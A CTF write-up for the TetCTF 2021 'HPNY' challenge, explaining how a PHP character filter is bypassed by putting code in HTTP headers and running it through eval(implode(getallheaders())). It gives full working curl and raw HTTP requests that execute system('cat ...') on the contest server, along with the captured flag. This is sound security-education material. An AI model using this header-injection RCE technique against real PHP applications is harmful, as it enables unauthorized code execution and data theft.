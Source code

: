 # HPNY
### TetCTF 2021

We can pass a `roll` parameter and there's a filter applied to it (`/^[a-z\(\)\_\.]+$/i`). We can only use `a-z`, `()`, `_` and `.`.

We can pass PHP functions and execute them. `roll=system(ls)` works because PHP coverts ls to 'ls' (`PHP Warning - Use of undefined constant ls - assumed 'ls'`). The server executes `system('ls)()` and returns: `fl4g_here_but_can_you_get_it_hohoho.php index.php`. We want the flag php file.

We could try something with `include(fl4g_here_but_can_you_get_it_hohoho.php)` but there's a `4` in the file name.

Maybe we can use the `get_lucky_number` until we hit a 4... Don't know how to go on with this idea.

Tip says that we must use a function that starts with "get". After searching PHP documentaion and trying functions, I thought about using `getallheaders()`. This way, we can use HTTP headers to write our payload and bypass the filter.

Trying this, we see it works:
```
curl -i -H "User-Agent: system('cat fl4g_here_but_can_you_get_it_hohoho.php')" http://139.180.155.171:8003/\?roll\=print_r\(getallheaders\(\)\)

...

<!-- Let's pray for new year lucky things <3 -->

Array
(
    [Host] => 139.180.155.171:8003
    [Accept] => */*
    [User-Agent] => system('cat fl4g_here_but_can_you_get_it_hohoho.php')
)

```
Now, how to read and execute as PHP code the User-Agent or any other header?

Using `implode()` we can create a single string: `139.180.155.171:8003*/*system('cat fl4g_here_but_can_you_get_it_hohoho.php')`
Writing `roll=eval(implode(getallheader())` we should be able to execute PHP code in the header... However, we must remove the other headers that are not PHP code; otherwise, the code breaks. We can try adding a header tha goes before "Host" to start a comment and finish the comment in the "User-Agent".

Using Burp and after some tests, I ended up with this request structure - which commented out all unwanted headers:
```
GET /?roll=print_r(implode(getallheaders())) HTTP/1.1
abc: /*
Host: 139.180.155.171:8003
def: */
User-Agent: system('cat fl4g_here_but_can_you_get_it_hohoho.php')
ghi: /*
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
jkl: */


```
Response: `/*139.180.155.171:8003*/system('cat fl4g_here_but_can_you_get_it_hohoho.php')/*gzip, deflateclose1max-age=0*/`

Now, we will be (at least we expect we'll be) able to execute the User-Agent by changing the print_r() for eval() in "roll". I still had to make some very small changes because we have a "()" after the code we insert. The final payload request looks like this:
```
GET /?roll=(eval(implode(getallheaders()))) HTTP/1.1
abc: /*
Host: 139.180.155.171:8003
def: */
User-Agent: system('cat fl4g_here_but_can_you_get_it_hohoho.php');
ghi: /*
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
jkl: */


```

Response (only the important part):
``` php
<!-- Let's pray for new year lucky things <3 -->

<?php
$flagsssssssss = "TetCTF{lixi_50k_<3_vina_*100*25926415724382#}";
?>
```
YEY! We have the flag :)

**Flag: `TetCTF{lixi_50k_<3_vina_*100*25926415724382#}`**
